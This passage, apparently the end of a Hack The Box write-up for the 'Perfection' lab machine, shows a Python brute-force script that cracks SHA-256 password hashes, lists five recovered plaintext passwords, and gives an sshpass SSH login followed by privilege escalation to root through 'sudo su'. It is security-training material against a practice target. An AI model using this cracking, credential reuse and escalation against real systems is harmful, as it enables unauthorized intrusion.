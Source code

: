 ```python
for i in range(len(names)):
    name = names[i]
    for j in range(1, 1000000001):
        password = name +"_" + back_name(name) + "_" + str(j)
        phash = hashlib.sha256(password.encode()).hexdigest()

        if phash == hashes[i]:
            print(f"[+] The user {name}'s password is {password}")
            break
            
```

 - Upon running the Python 3 script, the pentester discovered the plaintext passwords for multiple users.

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708092621.png)
```
[+] The user susan's password is susan_nasus_413759210
[+] The user tina's password is tina_anit_916066225
[+] The user harry's password is harry_yrrah_782072564
[+] The user david's password is david_divad_274797280
[+] The user stephen's password is stephen_nehpets_609653958
```

- Supposing there was `password reuse`, the pentester sought to validate the credentials of the user `susan` by attempting an `SSH` connection to the target. Success! The pentester managed to connect via `SSH`, thus validating the credential `susan_nasus_413759210`.

```bash
sshpass -p 'susan_nasus_413759210' ssh susan@10.10.11.253
```

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708104613.png)

- The pentester enumerated the sudo rights after obtaining `susan's password`, discovering that the user '`susan`' could execute **ALL commands on the target as any user in any group**, effectively becoming an easy win for privilege escalation to root. This assumption was based on susan belonging to the `sudo group`. A classic option to escalate to root would be to execute the command `sudo su`. This allowed him to read the `root.txt` file.

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708105712.png)


>I hope you had as much fun reading this write up as I did writing it. If this writeup helped you, please feel free to go to my [`Hack The Box profile (xpnt)`](https://app.hackthebox.com/users/1504363) and give me a respect 😁. Happy Hacking!!👾
{: .prompt-tip }